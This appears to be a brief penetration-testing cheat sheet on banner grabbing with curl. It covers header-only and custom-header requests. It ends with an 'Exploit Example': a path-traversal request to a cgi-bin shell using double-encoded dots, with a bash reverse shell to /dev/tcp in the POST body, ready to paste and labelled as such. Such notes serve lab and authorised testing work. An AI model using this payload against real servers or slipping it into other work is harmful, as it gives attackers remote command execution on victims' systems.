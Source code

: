 # Banner Grabbing / Web Server Headers

**Basic Banner Grabbing:**
```bash
curl -IL http://{url}
```
- `-I`: Fetches the headers only.
- `-L`: Follows redirects (if any).

**Custom Headers:**
```bash
curl "http://{url}" -H "{header parameters}"
```
- `-H`: Adds a custom header to the request.

**Exploit Example:**
```bash
curl 'http://10.10.10.10/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.10.10.10/4321 0>&1'
```
- `--data`: Sends data in a POST request.
- `bash -i >& /dev/tcp/10.10.10.10/4321 0>&1` : A reverse shell command.